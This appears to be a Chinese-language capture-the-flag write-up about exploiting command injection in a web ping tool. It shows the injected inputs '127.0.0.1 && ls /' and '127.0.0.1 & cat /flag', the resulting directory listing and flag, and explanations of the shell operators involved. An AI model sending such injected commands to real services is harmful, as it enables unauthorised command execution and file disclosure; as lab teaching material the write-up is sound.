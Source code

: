 ## 1

主要是讲目录这一个。
打开是一个ping界面，怀疑是SQL injection或者xss。
输入`127.0.0.1`得到
```txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.120 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.139 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.119/0.139 ms

```

疑惑中带有不解。差点把那个min/avg/max当目录名去了。
## 2

### 第一步
```
127.0.0.1 && ls /
```
得到响应


```

...
round-trip min/avg/max = 0.104/0.151/0.220 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
可以看到它返回了目录列表。
### 第二步

```
127.0.0.1 & cat /flag
```
得到
```
flag{ee79ce5d-c618-4380-b2d9-9443537c23aa}
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.144 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.116 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.120/0.144 ms
```

-----

## 3
不过一般来说上述payload会被视为非法请求路径或命令，并返回一个错误页面或者其他类似的响应。但也有存在安全漏洞的web应用。

- ls 显示文件和目录列表
- cat 顺序显示文本文件内容
- dir 显示文件和目录列表，但不带颜色识别

当连接到一个 Web 服务器时，浏览器将通过该服务器提供的文件来访问页面和资源。根目录会根据 Web 服务器的配置而不同。

Web 服务器通常有一个根目录（也称为文档根目录或网站根目录），它是服务器上存储网页和资源的主要目录。当浏览器请求一个页面或资源时，Web 服务器会根据请求的 URL 和配置的规则来确定从哪个位置提供文件。

例如，如果配置的根目录是 `/var/www/html`，那么当浏览器请求 `http://example.com/index.html`时，Web 服务器会在 `/var/www/html` 目录中查找 `index.html` 文件，并将其发送给浏览器作为响应。

因此，当连接到 Web 服务器时，访问的根目录将是由服务器配置决定的，它会从指定的根目录中提供文件和资源。


||作用|
|---|---|
|`&`|个控制操作符，用于在后台同时运行多个命令。它使得第一个命令在后台运行时，可以立即开始执行第二个命令。|
|`&&`|一个逻辑运算符，表示只有在前一个命令执行成功后才会继续执行后面的命令。如果第一个命令执行失败，则第二个命令不会被执行。|
|`ls /`|这个命令将列出根目录下的所有文件和目录。在 Linux 或 Unix 操作系统中，`ls`命令用于列出指定目录中的文件和子目录的名称。`/` 表示根目录，这里的命令将在根目录下执行 `ls`命令，并显示所有文件和目录的名称。
|
|`cat /flag`|显示指定文件的内容，并将其输出到终端上。这里指定文件是`flag`|